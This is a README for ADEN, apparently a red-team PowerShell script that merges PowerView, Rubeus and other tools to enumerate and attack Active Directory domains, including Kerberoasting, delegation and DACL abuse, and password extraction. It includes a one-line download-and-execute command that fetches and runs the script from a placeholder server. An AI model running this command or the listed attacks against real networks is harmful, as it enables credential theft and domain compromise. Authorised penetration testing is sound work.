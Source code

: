 ## What is this?
ADEN is a local enumeration script for active directory environments, it is a carefully put together merge of several enumeration and exploitation projects:

- PowerView
- PowerMad
- ASREPRoast
- Get-GPPPassword
- New-GPOImmediateTask
- Invoke-Rubeus


It is to be used as an all-in-one enumeration script to use when you are in a domain user's session.\
\
Big credits to all the authors of the above mentioned tools! You are awesome.

## How to use?
The function ```Invoke-FullEnum``` will launch a full enumeration that will allow you to initially map the  AD environment.

```powershell
iex(iwr -usebasicparsing http://[SERVER]/aden.ps1);Invoke-FullEnum
```
Keep in mind you also have access to all the functions of the above mentioned scripts. 

## What does it do?

ADEN currently supports the following attack scenarios:

- ASREPRoasting / Kerberoasting
- Unconstrained / Constrained / Resource Based Delegations
- DACL Abuse
- Local Admin Access
- GPP / LAPS / LDAP Password exfiltration

It also enumerates the following, non-directly attack-correlated information:

- Current/Root Domain Info
- Current user memberships and privileges
- Kerberos and Password Policies
- Trust relationships
- Domain users, groups, computers, fileservers
